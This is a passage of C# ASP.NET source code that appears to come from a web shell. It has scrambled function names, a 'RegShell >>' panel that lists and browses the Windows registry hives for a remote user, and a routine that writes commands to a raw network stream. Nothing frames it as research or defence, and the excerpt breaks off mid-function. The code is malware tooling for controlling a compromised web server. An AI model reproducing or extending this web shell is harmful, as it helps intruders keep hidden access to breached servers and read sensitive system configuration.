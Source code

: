 protected void ZJiM(NetworkStream instream,string Sendstr)
{
if(instream.CanWrite)
{
byte[] uPZ=Encoding.Default.GetBytes(Sendstr);
instream.Write(uPZ,0,uPZ.Length);
}
Bin_Td_Res.InnerHtml+="<font color=blue>"+Sendstr+"</font>";
}
public void xFhz()
{
WICxe();
kkHN.Visible=true;
Bin_H2_Title.InnerText="RegShell >>";
string txc=@"HKEY_LOCAL_MACHINE|HKEY_CLASSES_ROOT|HKEY_CURRENT_USER|HKEY_USERS|HKEY_CURRENT_CONFIG";
vyX.Text="";
foreach(string rootkey in txc.Split('|'))
{
vyX.Text+="<a href=\"javascript:Bin_PostBack('Bin_Regread','"+MVVJ(rootkey)+"')\">"+rootkey+"</a> | ";
}
lFAvw();
}
protected void lFAvw()
{
qPdI.Text="";
string txc=@"HKEY_LOCAL_MACHINE|HKEY_CLASSES_ROOT|HKEY_CURRENT_USER|HKEY_USERS|HKEY_CURRENT_CONFIG";
TableRow tr;
TableCell tc;
foreach(string rootkey in txc.Split('|'))
{
tr=new TableRow();
tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tc.Width=Unit.Parse("40%");
tc.Text="<a href=\"javascript:Bin_PostBack('Bin_Regread','"+MVVJ(rootkey)+"')\">"+rootkey+"</a>";
tr.Cells.Add(tc);
tc=new TableCell();
tc.Width=Unit.Parse("60%");
tc.Text="&lt;RootKey&gt;";
tr.Cells.Add(tc);
pLWD.Rows.Add(tr);
}
}
protected void tpRQ(string Reg_Path)
{
if(!Reg_Path.EndsWith("\\"))
{
Reg_Path=Reg_Path+"\\";
}
qPdI.Text=Reg_Path;
string cJG=Regex.Replace(Reg_Path,@"\\[^\\]+\\?$","");
cJG=Regex.Replace(cJG,@"\\+","\\");
TableRow tr=new TableRow();
TableCell tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";